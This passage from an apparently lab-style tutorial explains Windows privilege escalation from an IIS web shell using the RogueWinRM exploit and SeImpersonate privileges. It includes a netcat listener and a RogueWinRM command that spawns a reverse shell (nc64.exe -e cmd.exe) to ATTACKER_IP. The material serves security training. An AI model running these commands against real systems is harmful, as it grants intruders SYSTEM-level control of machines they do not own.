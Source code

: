 In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs. Internet Information Services (IIS) will also create a similar default account called "iis apppool\defaultapppool" for web applications.

To elevate privileges using such accounts, an attacker needs the following: 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

We will use RogueWinRM exploit to accomplish both conditions.

Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:

http://10.10.12.124/

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:


![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/4603506a36f4bbda602dc67cdc845d9f.png)

To use RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the C:\tools\ folder.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

```
Kali Linux

user@attackerpc$ nc -lvp 4442
```

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/24545e313a2e5ddee2386a68b4c7adeb.png)

Note: The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

The -p parameter specifies the executable to be run by the exploit, which is nc64.exe in this case. The -a parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be -e cmd.exe ATTACKER_IP 4442.
